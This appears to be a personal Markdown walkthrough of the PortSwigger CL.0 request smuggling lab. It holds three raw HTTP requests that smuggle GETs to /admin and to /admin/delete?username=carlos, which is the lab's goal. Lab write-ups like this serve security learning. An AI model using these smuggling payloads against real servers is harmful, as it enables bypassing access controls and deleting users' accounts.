 
# CL.0 request smuggling

This lab is vulnerable to CL.0 request smuggling attacks. The back-end server ignores the Content-Length header on requests to some endpoints.

To solve the lab, identify a vulnerable endpoint, smuggle a request to the back-end to access to the admin panel at /admin, then delete the user carlos.

This lab is based on real-world vulnerabilities discovered by PortSwigger Research. For more details, check out Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling.

---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling/browser/cl-0





![img](images/CL.0%20request%20smuggling/1.png)
![img](images/CL.0%20request%20smuggling/2.png)

---------------------------------------------


Steps to create a group:





![img](images/CL.0%20request%20smuggling/3.png)
![img](images/CL.0%20request%20smuggling/4.png)


In my case it does not work when creating a group, I send the same request twice (using always HTTP/1):

``` 
POST /resources/images/blog.svg HTTP/1.1
...
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```



![img](images/CL.0%20request%20smuggling/5.png)


``` 
POST /resources/images/blog.svg HTTP/1.1
...
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /admin HTTP/1.1
Foo: x
```



![img](images/CL.0%20request%20smuggling/6.png)


``` 
POST /resources/images/blog.svg HTTP/1.1
...
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```



![img](images/CL.0%20request%20smuggling/7.png)